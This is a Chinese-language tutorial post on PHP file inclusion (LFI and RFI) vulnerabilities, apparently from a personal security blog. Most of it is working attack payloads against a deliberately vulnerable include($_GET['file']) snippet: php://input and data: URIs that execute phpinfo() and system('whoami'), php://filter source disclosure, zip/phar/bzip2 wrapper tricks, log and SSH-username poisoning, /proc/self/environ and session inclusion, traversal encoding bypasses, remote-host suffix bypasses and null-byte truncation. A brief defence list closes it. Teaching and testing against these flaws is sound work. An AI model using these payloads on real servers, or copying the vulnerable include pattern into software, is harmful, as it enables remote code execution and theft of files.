

php文件包含漏洞学习
合上吧，没有新姿势。

# 基本

## 相关函数

php中引发文件包含漏洞的通常是以下四个函数：

1. [include()](http://www.php.net/manual/en/function.include.php)
2. [include_once()](http://php.net/manual/en/function.include-once.php)
3. [require()](http://php.net/manual/en/function.require.php)
4. [require_once()](http://php.net/manual/en/function.require-once.php)

reuqire() 如果在包含的过程中有错，比如文件不存在等，则会直接退出，不执行后续语句。
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/1.png?raw=true)

include() 如果出错的话，只会提出警告，会继续执行后续语句。
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/2.png?raw=true)

require_once() 和 include_once() 功能与require() 和 include() 类似。但如果一个文件已经被包含过了，则 require_once() 和 include_once() 则不会再包含它，以避免函数重定义或变量重赋值等问题。

当利用这四个函数来包含文件时，不管文件是什么类型（图片、txt等等），都会直接作为php文件进行解析。测试代码：

```
<?php	$file = $_GET['file'];	include $file;?>
```


在同目录下有个phpinfo.txt，其内容为``。则只需要访问：

```
index.php?file=phpinfo.txt
```


即可成功解析phpinfo。
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/3.png?raw=true)

## 场景

1. 具有相关的文件包含函数。
2. 文件包含函数中存在动态变量，比如 `include $file;`。
3. 攻击者能够控制该变量，比如`$file = $_GET['file'];`。

## 分类

### LFI(Local File Inclusion)

本地文件包含漏洞，顾名思义，指的是能打开并包含本地文件的漏洞。大部分情况下遇到的文件包含漏洞都是LFI。简单的测试用例如前所示。

### RFI(Remote File Inclusion)

远程文件包含漏洞。是指能够包含远程服务器上的文件并执行。由于远程服务器的文件是我们可控的，因此漏洞一旦存在危害性会很大。
但RFI的利用条件较为苛刻，需要php.ini中进行配置

1. allow_url_fopen = On
2. allow_url_include = On

两个配置选项均需要为On，才能远程包含文件成功。
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/4.png?raw=true)

在php.ini中，allow_url_fopen默认一直是On，而allow_url_include从php5.2之后就默认为Off。

# 包含姿势

下面例子中测试代码均为：

```
<?php	$file = $_GET['file'];	include $file;?>
```


allow_url_fopen 默认为 On
allow_url_include 默认为 Off

若有特殊要求，会在利用条件里指出。

## php伪协议

### php://input

利用条件：

1. allow_url_include = On。
2. 对allow_url_fopen不做要求。

姿势：

```
index.php?file=php://inputPOST:<? phpinfo();?>
```


[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/5.png?raw=true)

### php://filter

利用条件：无甚

姿势：

```
index.php?file=php://filter/read=convert.base64-encode/resource=index.php
```


通过指定末尾的文件，可以读取经base64加密后的文件源码，之后再base64解码一下就行。虽然不能直接获取到shell等，但能读取敏感文件危害也是挺大的。
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/8.png?raw=true)

```
>>> import base64>>> base64.b64decode("PD9waHAgDQoJJGZpbGUgPSAkX0dFVFsnZmlsZSddOw0KCWluY2x1ZGUgJGZpbGU7DQo/Pg==")b"<?php \r\n\t$file = $_GET['file'];\r\n\tinclude $file;\r\n?>"
```

其他姿势：

```
index.php?file=php://filter/convert.base64-encode/resource=index.php
```


效果跟前面一样，少了read等关键字。在绕过一些waf时也许有用。

### phar://

利用条件：

1. php版本大于等于php5.3.0

姿势：

假设有个文件phpinfo.txt，其内容为``，打包成zip压缩包，如下：
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/9.png?raw=true)

指定绝对路径

```
index.php?file=phar://D:/phpStudy/WWW/fileinclude/test.zip/phpinfo.txt
```


或者使用相对路径（这里test.zip就在当前目录下）

```
index.php?file=phar://test.zip/phpinfo.txt
```


[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/10.png?raw=true)

### zip://

利用条件：

1. php版本大于等于php5.3.0

姿势：
构造zip包的方法同phar。

但使用zip协议，需要指定绝对路径，同时将`#`编码为`%23`，之后填上压缩包内的文件。

```
index.php?file=zip://D:\phpStudy\WWW\fileinclude\test.zip%23phpinfo.txt
```


[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/11.png?raw=true)

若是使用相对路径，则会包含失败。


#### zip://, bzip2://, zlib://协议

> PHP.ini：
> zip://, bzip2://, zlib://协议在双off的情况下也可以正常使用；
> allow_url_fopen ：off/on
> allow_url_include：off/on

```
3个封装协议，都是直接打开压缩文件。
compress.zlib://file.gz - 处理的是 '.gz' 后缀的压缩包
compress.bzip2://file.bz2 - 处理的是 '.bz2' 后缀的压缩包
zip://archive.zip#dir/file.txt - 处理的是 '.zip' 后缀的压缩包里的文件
```

**zip://, bzip2://, zlib:// 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名。**

#### zip://协议

php 版本大于等于 php5.3.0
使用方法：
`zip://archive.zip#dir/file.txt`
zip:// [压缩文件绝对路径]#[压缩文件内的子文件名]**
要用绝对路径+url编码#

 测试:
新建一个名为zip.txt的文件，内容为``，然后压缩为名为test.zip的zip文件。**如果可以上传zip文件则上传zip文件，若不能则重命名为test.jpg后上传。**其他几种压缩格式也可以这样操作。 


更名为jpg
payload:

``` 
http://127.0.0.1/xxx.php?a=zip://C:\Users\liuxianglai\Desktop\test.jpg%23zip.txt
```


#### bzip2://协议

**使用方法：**
`compress.bzip2://file.bz2`
相对路径也可以

测试
用7-zip生成一个bz2压缩文件。
pyload:`http://127.0.0.1/xxx.php?a=compress.bzip2://C:/Users/liuxianglai/Desktop/test.bz2`
或者文件改为jpg后缀
`http://127.0.0.1/xxx.php?a=compress.bzip2://C:/Users/liuxianglai/Desktop/test.jpg`


#### zlib://协议同理

小结

------


以后再遇到继续补充


### data:URI schema

利用条件：

1. php版本大于等于php5.2
2. allow_url_fopen = On
3. allow_url_include = On

姿势一：

```
index.php?file=data:text/plain,<?php phpinfo();?>
```


[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/6.png?raw=true)

执行命令：

```
index.php?file=data:text/plain,<?php system('whoami');?>
```


姿势二：

```
index.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```


加号`+`的url编码为`%2b`，`PD9waHAgcGhwaW5mbygpOz8+`的base64解码为：``
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/7.png?raw=true)

执行命令：

```
index.php?file=data:text/plain;base64,PD9waHAgc3lzdGVtKCd3aG9hbWknKTs/Pg==
```


其中`PD9waHAgc3lzdGVtKCd3aG9hbWknKTs/Pg==`的base64解码为：``

## 包含session

利用条件：session文件路径已知，且其中内容部分可控。

姿势：

php的session文件的保存路径可以在phpinfo的session.save_path看到。
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/14.png?raw=true)

常见的php-session存放位置：

1. /var/lib/php/sess_PHPSESSID
2. /var/lib/php/sess_PHPSESSID
3. /tmp/sess_PHPSESSID
4. /tmp/sessions/sess_PHPSESSID

session的文件名格式为sess_[phpsessid]。而phpsessid在发送的请求的cookie字段中可以看到。
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/16.png?raw=true)

要包含并利用的话，需要能控制部分sesssion文件的内容。暂时没有通用的办法。有些时候，可以先包含进session文件，观察里面的内容，然后根据里面的字段来发现可控的变量，从而利用变量来写入payload，并之后再次包含从而执行php代码。

比如这篇文章：[透過 LFI 引入 PHP session 檔案觸發 RCE](http://kb.hitcon.org/post/165429468072/透過-lfi-引入-php-session-檔案觸發-rce)

## 包含日志

### 访问日志

利用条件： 需要知道服务器日志的存储路径，且日志文件可读。

姿势：

很多时候，web服务器会将请求写入到日志文件中，比如说apache。在用户发起请求时，会将请求写入access.log，当发生错误时将错误写入error.log。默认情况下，日志保存路径在 /var/log/apache2/。

但如果是直接发起请求，会导致一些符号被编码使得包含无法正确解析。可以使用burp截包后修改。
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/12.png?raw=true)

正常的php代码已经写入了 /var/log/apache2/access.log。然后进行包含即可。
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/13.png?raw=true)

在一些场景中，log的地址是被修改掉的。你可以通过读取相应的配置文件后，再进行包含。

这里提供一道包含日志的CTF题目：[SHACTF-2017- Bon Appétit (100)-writeup](https://chybeta.github.io/2017/08/06/SHACTF-2017-Web-writeup/#Methon-Two)

### SSH log

利用条件：需要知道ssh-log的位置，且可读。默认情况下为 /var/log/auth.log

姿势：

用ssh连接：

```
ubuntu@VM-207-93-ubuntu:~$ ssh '<?php phpinfo(); ?>'@remotehost
```


之后会提示输入密码等等，随便输入。

然后在remotehost的ssh-log中即可写入php代码：
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/17.png?raw=true)

之后进行文件包含即可。

参考：[RCE with LFI and SSH Log Poisoning](http://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/)

## 包含environ

利用条件：

1. php以cgi方式运行，这样environ才会保持UA头。
2. environ文件存储位置已知，且environ文件可读。

姿势：

proc/self/environ中会保存user-agent头。如果在user-agent中插入php代码，则php代码会被写入到environ中。之后再包含它，即可。

可以参考这个：

1. [The proc/self/environ Injection](http://websecuritylog.blogspot.jp/2010/06/procselfenviron-injection.html)
2. [shell via LFI - proc/self/environ method](https://www.exploit-db.com/papers/12886/)

## 包含fd

跟包含environ类似。

参考： [LFI Cheat Sheet：/proc/self/environ LFI Method](https://highon.coffee/blog/lfi-cheat-sheet/#procselffd-lfi-method)

## 包含临时文件

[](http://images2015.cnblogs.com/blog/804631/201511/804631-20151116135028890-525890377.jpg)

php中上传文件，会创建临时文件。在linux下使用/tmp目录，而在windows下使用c:\winsdows\temp目录。在临时文件被删除之前，利用竞争即可包含该临时文件。

由于包含需要知道包含的文件名。一种方法是进行暴力猜解，linux下使用的随机函数有缺陷，而window下只有65535中不同的文件名，所以这个方法是可行的。

另一种方法是配合phpinfo页面的php variables，可以直接获取到上传文件的存储路径和临时文件名，直接包含即可。这个方法可以参考[LFI With PHPInfo Assistance](https://www.insomniasec.com/downloads/publications/LFI With PHPInfo Assistance.pdf)

类似利用临时文件的存在，竞争时间去包含的，可以看看这道CTF题：[XMAN夏令营-2017-babyweb-writeup](https://chybeta.github.io/2017/08/22/XMAN夏令营-2017-babyweb-writeup/)

## 包含上传文件

利用条件：千变万化，不过至少得知道上传的文件在哪，叫啥名字。。。

姿势：

往往要配合上传的姿势，不说了，太多了。

## 其余

一个web服务往往会用到多个其他服务，比如ftp服务，数据库等等。这些应用也会产生相应的文件，但这就需要具体情况具体分析咯。这里就不展开了。

# 绕过姿势

接下来聊聊绕过姿势。平常碰到的情况肯定不会是简简单单的`include $_GET['file'];`这样直接把变量传入包含函数的。在很多时候包含的变量/文件不是完全可控的，比如下面这段代码指定了前缀和后缀：

```
<?php	$file = $_GET['file'];	include '/var/www/html/'.$file.'/test/test.php';?>
```


这样就很“难”直接去包含前面提到的种种文件。

## 指定前缀

先考虑一下指定了前缀的情况吧。测试代码:

```
<?php	$file = $_GET['file'];	include '/var/www/html/'.$file;?>
```


### 目录遍历

这个最简单了，简要的提一下。

现在在/var/log/test.txt文件中有php代码``，则利用`../`可以进行目录遍历，比如我们尝试访问：

```
include.php?file=../../log/test.txt
```


则服务器端实际拼接出来的路径为：/var/www/html/../../log/test.txt，也即/var/log/test.txt。从而包含成功。

[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/18.png?raw=true)

### 编码绕过

服务器端常常会对于`../`等做一些过滤，可以用一些编码来进行绕过。下面这些总结来自《白帽子讲Web安全》。

- 利用url编码
  - ../
    - %2e%2e%2f
    - ..%2f
    - %2e%2e/
  - ..\
    - %2e%2e%5c
    - ..%5c
    - %2e%2e\
- 二次编码
  - ../
    - %252e%252e%252f
  - ..\
    - %252e%252e%255c
- 容器/服务器的编码方式
  - ../
    - ..%c0%af
      - 注：[Why does Directory traversal attack %C0%AF work?](https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work)
    - %c0%ae%c0%ae/
      - 注：java中会把”%c0%ae”解析为”\uC0AE”，最后转义为ASCCII字符的”.”（点）
      - Apache Tomcat Directory Traversal
  - ..\
    - ..%c1%9c

## 指定后缀

接着考虑指定后缀的情况。测试代码:

```
<?php	$file = $_GET['file'];	include $file.'/test/test.php';?>
```


### URL

url格式

```
protocol :// hostname[:port] / path / [;parameters][?query]#fragment
```


在远程文件包含漏洞（RFI）中，可以利用query或fragment来绕过后缀限制。

姿势一：query（？）

```
index.php?file=http://remoteaddr/remoteinfo.txt?
```


则包含的文件为 http://remoteaddr/remoteinfo.txt?/test/test.php
问号后面的部分`/test/test.php`，也就是指定的后缀被当作query从而被绕过。
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/19.png?raw=true)

姿势二：fragment（#）

```
index.php?file=http://remoteaddr/remoteinfo.txt%23
```


则包含的文件为 http://remoteaddr/remoteinfo.txt#/test/test.php
问号后面的部分`/test/test.php`，也就是指定的后缀被当作fragment从而被绕过。注意需要把`#`进行url编码为`%23`。
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/20.png?raw=true)

### 利用协议

前面有提到过利用zip协议和phar协议。假设现在测试代码为：

```
<?php	$file = $_GET['file'];	include $file.'/test/test.php';?>
```


构造压缩包如下：
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/21.png?raw=true)

其中test.php内容为：

```
<?php phpinfo(); ?>
```


利用zip协议，注意要指定绝对路径

```
index.php?file=zip://D:\phpStudy\WWW\fileinclude\chybeta.zip%23chybeta
```


则拼接后为：zip://D:\phpStudy\WWW\fileinclude\chybeta.zip#chybeta/test/test.php

[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/22.png?raw=true)

能成功包含。

在利用phar协议的时候有些问题。哪位能指教一下？
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/23.png?raw=true)

### 长度截断

利用条件： php版本 < php 5.2.8

目录字符串，在linux下4096字节时会达到最大值，在window下是256字节。只要不断的重复`./`

```
index.php?file=././././。。。省略。。。././shell.txt
```


则后缀`/test/test.php`，在达到最大值后会被直接丢弃掉。

### 0字节截断

利用条件： php版本 < php 5.3.4

```
index.php?file=phpinfo.txt%00
```

[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/24.png?raw=true)

能利用00截断的场景现在应该很少了：）

# 防御方案

1. 在很多场景中都需要去包含web目录之外的文件，如果php配置了open_basedir，则会包含失败
2. 做好文件的权限管理
3. 对危险字符进行过滤等等

# Refference

- 《白帽子讲Web安全》
- [From LFI to RCE in php](https://dustri.org/b/from-lfi-to-rce-in-php.html)
- [l3m0n: 文件包含漏洞小结](http://www.cnblogs.com/iamstudy/articles/include_file.html)
- [LFI Cheat Sheet](https://highon.coffee/blog/lfi-cheat-sheet/)
- [Local File Inclusion](https://github.com/lucyoa/ctf-wiki/tree/master/web/file-inclusion)